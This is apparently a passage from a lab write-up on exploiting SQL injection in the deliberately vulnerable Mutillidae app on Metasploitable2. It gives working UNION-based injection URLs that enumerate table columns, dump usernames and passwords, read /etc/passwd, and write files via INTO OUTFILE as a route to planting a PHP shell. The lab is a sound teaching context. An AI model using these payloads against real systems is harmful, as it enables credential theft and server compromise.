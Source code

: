- Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

- Here we are trying to extract column names from the “accounts” table.




- The column names of the accounts is displayed below for the following url:
```
http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details
```

- Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

## Ex: (union select 1,username,password,is_admin,5 from accounts).
```
http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details
```

- Reading and writing files on the web-server
- We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

## Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).
```
http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details
```

- the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion.

- we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. 

- This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. 

Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).
## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
